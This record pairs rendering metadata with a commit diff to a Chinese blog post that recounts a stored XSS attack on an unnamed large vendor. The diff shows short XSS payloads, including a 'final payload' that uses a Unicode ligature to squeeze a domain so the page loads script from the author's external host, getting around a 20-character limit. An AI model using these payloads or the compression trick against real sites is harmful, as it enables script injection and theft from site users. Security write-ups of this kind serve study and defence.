

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide and 1400 px high, scrolled down 717 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2069 px from its top, so only the background shows below that.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -35,12 +35,14 @@ published: true
 ```
 成功
 
-但是依旧无法达到储存型xss要求，因为长度限制在20。我们想要执行更多脚本，必须引入外部url里面的脚本
-通过人脑极限压缩大法，我们最终将执行外部脚本极限压缩到15个字符
+这么个简单的脚本，肯定无法达到储存型xss要求
+由于长度限制在20，我们想要执行更多js代码，必须引入外部url里面的script
+通过人脑极限压缩大法，我们最终将执行外部url的payload极限压缩到15个字符
+payload：
 ```js
   " script=http//[填写域名]
 ```
-但这样，我们填写的域名就不能超过五个字符了，非常的危险
+总长度为15，我们填写的域名不能超过5字符，非常的危险
 当时就想到了短域名等方案，但都太长了
 
 经过我苦苦思考，还是想到了一个特别奇淫巧计的东西能利用：utf-8编码符号
@@ -64,7 +66,7 @@ published: true
 
 # [](#header-1)3、中期payload注入阶段
 注册了radq.cc，在该域名下挂js脚本，顺利注入
-payload:
+final payload:
 ```js
   " script=http//㎭q.cc
 ```
````
